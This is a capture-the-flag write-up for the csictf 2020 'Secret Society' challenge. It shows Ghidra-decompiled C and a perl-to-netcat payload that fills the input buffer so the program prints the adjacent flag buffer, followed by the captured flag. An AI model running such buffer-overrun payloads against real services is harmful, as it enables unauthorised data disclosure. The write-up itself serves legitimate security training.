 ## Description

Wanna enter the Secret Society? Well you have to find the secret code first!

```  
nc chall.csivit.com 30041  
```

## Analysis

Decompile with Ghidra and look at `main()`:

```c  
undefined8 main(void)  
{  
 size_t sVar1;  
 undefined8 local_d8 [2];  
 undefined4 uStack200;  
 undefined auStack196 [108];  
 char local_58 [56];  
 FILE *local_20;  
 char *local_18;  
 __gid_t local_c;  
  
 setvbuf(stdout,(char *)0x0,2,0);  
 local_c = getegid();  
 setresgid(local_c,local_c,local_c);  
 memset(local_58,0,0x32);  
 memset(local_d8,0,0x80);  
 puts("What is the secret phrase?");  
 fgets((char *)local_d8,0x80,stdin);  
 local_18 = strchr((char *)local_d8,10);  
 if (local_18 != (char *)0x0) {  
   *local_18 = '\0';  
 }  
 sVar1 = strlen((char *)local_d8);  
 *(undefined8 *)((long)local_d8 + sVar1) = 0x657261206577202c;  
 *(undefined8 *)((long)local_d8 + sVar1 + 8) = 0x6877797265766520;  
 *(undefined4 *)((long)&uStack200 + sVar1) = 0x2e657265;  
 auStack196[sVar1] = 0;  
 local_20 = fopen("flag.txt","r");  
 if (local_20 == (FILE *)0x0) {  
   printf("You are a double agent, it\'s game over for you.");  
                   /* WARNING: Subroutine does not return */  
   exit(0);  
 }  
 fgets(local_58,0x32,local_20);  
 printf("Shhh... don\'t tell anyone else about ");  
 puts((char *)local_d8);  
 return 0;  
}  
```

This prompts us for a secret phrase, using a buffer that is only 16 bytes, but
it's succeptible to a buffer overflow. What happens when we run it? Create a
fake `flag.txt` and test locally.

```  
kali@kali:~/Downloads$ echo flag > flag.txt  
kali@kali:~/Downloads$ ./secret-society  
What is the secret phrase?  
hello  
Shhh... don't tell anyone else about hello, we are everywhere.  
kali@kali:~/Downloads$ nc chall.csivit.com 30041  
What is the secret phrase?  
hello  
Shhh... don't tell anyone else about hello, we are everywhere.  
kali@kali:~/Downloads$ nc chall.csivit.com 30041  
What is the secret phrase?  
fooooooo  
Shhh... don't tell anyone else about fooooooo, we are everywhere.  
```

It's just printing out our input from `local_d8` even though the flag is
sitting there in `local_58` after the `fopen()` and `fgets()` calls. We can
overflow the input buffer though to avoid having a null terminator until the
beginning of `local_58`. Then the flag will be read into `local_58` and the
`puts()` call on `local_d8` should print our input, plus the flag at the very
end.

## Solution

We have to fill 3 buffers:

* `local_d8` (16 bytes, our input buffer)  
* `uStack200` (4 bytes)  
* `auStack196` (108 bytes)

That will leave the null terminator at the beginning of `local_58`. Test
locally:

```  
kali@kali:~/Downloads$ perl -e 'print "A"x16 . "B"x4 . "C"x108' | ./secret-society  
What is the secret phrase?  
Shhh... don't tell anyone else about
AAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC,flag  
```

That worked, so run it against the remote server to get the flag:

```  
kali@kali:~/Downloads$ perl -e 'print "A"x16 . "B"x4 . "C"x108' | nc chall.csivit.com 30041  
What is the secret phrase?  
Shhh... don't tell anyone else about
AAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC,csivit{Bu!!er_e3pl01ts_ar5_5asy}  
```

The flag is:

```  
csivit{Bu!!er_e3pl01ts_ar5_5asy}  
```

Original writeup
(https://github.com/dobsonj/ctf/tree/master/writeups/2020/csictf/secret_society).
